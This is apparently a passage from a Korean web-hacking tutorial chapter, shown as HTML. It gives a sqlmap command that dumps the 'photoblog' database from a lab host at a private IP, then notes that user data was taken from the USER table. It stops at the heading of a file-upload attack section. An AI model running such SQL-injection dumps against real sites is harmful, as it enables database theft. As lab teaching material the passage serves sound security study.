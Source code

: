 <div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%">sqlmap&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>u&nbsp;http:<span style="color:#0086b3"></span><span style="color:#ff3399">/</span><span style="color:#0086b3"></span><span style="color:#ff3399">/</span><span style="color:#308ce5">192.</span><span style="color:#308ce5">168.</span><span style="color:#308ce5">56.</span><span style="color:#308ce5">106</span><span style="color:#ff3399">/</span>cat.php?id<span style="color:#0086b3"></span><span style="color:#ff3399">=</span><span style="color:#308ce5">1</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span>D&nbsp;photoblog&nbsp;<span style="color:#0086b3"></span><span style="color:#ff3399">-</span><span style="color:#0086b3"></span><span style="color:#ff3399">-</span>dump</div></div></td><td style="vertical-align:bottom;padding:0 2px 4px 0"><a href="http://colorscripter.com/info#e" target="_blank" style="text-decoration:none;color:white"><span style="font-size:9px;word-break:normal;background-color:#e5e5e5;color:white;border-radius:10px;padding:1px">cs</span></a></td></tr></table></div><br>


<div align="center" >
<img src="/Art of Web Hacking/Chapter18/006.png" width="520" height="201"> <br>
</div><br>
<div align="center" >
<img src="/Art of Web Hacking/Chapter18/007.png" width="520" height="201"> <br>
</div>스샷. 6-7<br>
- DB 내용을 덤프 시키고, USER 테이블로부터 사용자 정보를 탈취했습니다.
<br><br><br><br>
<font size="4em" color="#0091ff">3. 파일 업로드 공격</font>
